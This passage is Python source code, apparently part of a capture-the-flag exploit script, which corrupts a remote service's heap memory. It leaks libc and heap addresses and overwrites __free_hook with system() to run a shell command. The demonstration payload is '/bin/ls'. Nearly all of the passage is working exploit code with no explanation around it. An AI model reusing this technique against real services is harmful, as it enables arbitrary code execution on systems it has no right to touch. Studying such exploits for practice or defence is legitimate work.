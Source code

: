 ```py
            b"\x00"*2 +
            0x200.to_bytes(2, "little") +
            0x200.to_bytes(2, "little") +
            b"\x00"*6
        )
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x20, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*8 +
            (libc.symbols["__free_hook"] - 0x624 + 0x30 + 0x200 + 0x200).to_bytes(8, "little")
        )
        send_4_RAM_encrypt(
            r, 
            0, 
            0x1e8, 
            b"\x00"*0x1dc +
            b"\x00"*2 +
            0x200.to_bytes(2, "little") +
            0x200.to_bytes(2, "little") +
            b"\x00"*6
        )
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x20, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*8 +
            (libc.symbols["__free_hook"] - 0x624 + 0x30 + 0x200 + 0x200 + 0x1e8).to_bytes(8, "little")
        )
        send_4_RAM_encrypt(r, 0, 0x8, libc.symbols["system"].to_bytes(8, "little"))
        
        log.info("Will exploit...")
        payload = b"/bin/ls"
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x200, 
            b"\x00"*0x150 + 
            payload + b"\x00"*(0xb0-len(payload))
        )
        clients[1].close()
        input(">>>><<<<")


    def leak_libc(self):
        c1 = conn()
        c2 = conn()
        
        r = conn()
        ram_id = point_at(r, 0x10410, 0x20)
        send_4_RAM_encrypt(r, ram_id, 0x10, b"\x00"*8 + 0x141.to_bytes(8, "little"))
        c1.close()
        leak = send_3_RAM_decrypt(r, ram_id)
        r.close()
        c2.close()
        return int.from_bytes(leak[16:24], "little") - libc.symbols["__malloc_hook"] - 112

    def leak_heap(self):
```
